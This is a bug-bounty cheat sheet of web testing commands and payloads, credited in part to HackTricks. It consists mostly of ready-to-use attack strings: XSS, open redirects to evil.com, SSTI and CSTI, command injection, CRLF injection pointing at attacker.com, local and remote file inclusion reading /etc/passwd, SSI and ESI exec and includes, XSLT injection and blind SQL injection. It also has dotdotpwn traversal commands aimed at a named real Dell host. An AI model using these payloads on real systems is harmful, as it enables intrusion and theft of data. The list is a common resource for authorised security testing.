 # Parameters Manual Testing

#### Automation

```bash
# Paramspider | gau | kxss
python3 ParamSpider/paramspider.py -d target | kxss 
cat subdomains.txt | gau | grep "?" | kxss

# parameter brute forcing 
Arjun -u host.com -w Wordlists/Param-Miner.txt

# Dalfox tool for scanning
Dalfox url host.com?parameters=xss

# Nuclei to fuzz for vulns
nuclei -l parameters.txt -t nuclei_templates/ -et nuclei_templates/waf -et nuclei_templates/others

# DotDotPwn --> <https://github.com/wireghoul/dotdotpwn>  --> for Directory Traversal automation
dotdotpwn -m http-url -u "<https://attachrite.dell.com/en/images/TRAVERSAL>" -f "/???/??ss??" -k "root" -d 20 -b -e "%00.png"
dotdotpwn -m http-url -u "<https://attachrite.dell.com/en/images/TRAVERSAL>" -f "etc/passwd" -k "root" -d 20 -b
```

#### Manual Testing (Credit: HackTricks)

*   **XSS**

    ```python
    <img src=x onerror=alert("XSS_By_h0tak88r")> 
    <00 foo="<a%20href="javascript:alert('XSS-Bypass')">XSS-CLick</00>--%20/ 
    jaVasCript:/*-/*`/*\\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\\x3csVg/<sVg/oNloAd=alert()//>\\x3e
    ```
*   **Open Redirect** → **SSRF**

    {% code overflow="wrap" %}
    ```python
    www.whitelisted.com
    www.whitelisted.com.evil.com
    <https://google.com>
    //google.com
    javascript:alert(1)
    <https://evil.com>
    <https://hackerone.com/reports/59372> -> Homograph Attack
    ```
    {% endcode %}

\* \*\*CSTI\*\*

````
```
{{7*7}}[7*7]→ {{3*3}}
{{constructor.constructor('alert(document.cookie)')()}}
```
````

* **SSTI** → `{{7*7}}${7*7}<%= 7*7 %>${{7*7}}#{7*7}${{<%[%'"}}%\\` → **RCE**
*   **Command Injection →**

    ```python
    1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
    /*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
    ```
*   **CRLF →**

    ```jsx
    %0d%0aLocation:%20http://attacker.com

    %3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E

    %3f%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3a0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E

    %0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E
    ```
* **Dangled Markup \[ HTML Injection ] →** `<br>lol<b><h1>THIS IS AND INJECTED TITLE </h1>`
*   **Local File Inclusion**

    ```jsx
    /etc/passwd
    ../../../../../../etc/hosts
    ..\\..\\..\\..\\..\\..\\etc/hosts
    /etc/hostname
    ../../../../../../etc/hosts
    C:/windows/system32/drivers/etc/hosts
    ../../../../../../windows/system32/drivers/etc/hosts
    ..\\..\\..\\..\\..\\..\\windows/system32/drivers/etc/hosts
    <http://asdasdasdasd.burpcollab.com/mal.php>
    \\\\asdasdasdasd.burpcollab.com/mal.php
    ```
*   **ReDOS**

    ```python
    (\\\\w*)+$
    ([a-zA-Z]+)*$
    ((a+)+)+$
    ```
*   **Server Side Inclusion/Edge Side Inclusion**

    ```python
    <!--#echo var="DATE_LOCAL" --><!--#exec cmd="ls" --><esi:include src=http://evil.com/>x=<esi:assign name="var1" value="'cript'"/><s<esi:vars name="$(var1)"/>>alert(/Chrome%20XSS%20filter%20bypass/);</s<esi:vars name="$(var1)"/>>
    ```
*   **XSLT Server Side Injection**

    ```python
    <xsl:value-of select="system-property('xsl:version')" /><esi:include src="<http://10.10.10.10/data/news.xml>" stylesheet="<http://10.10.10.10//news_template.xsl>"></esi:include>
    ```
* **Request smuggling** -> [ATO via request smuggling](https://gist.github.com/h0tak88r/8e6f8ff1f1ec511c57ff2063595f49fb#file-request-smuggling-to-ato)
* SQL Injection

```python
Bug : Blind SQL Injection Tips : X-Forwarded-For: 0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z
```
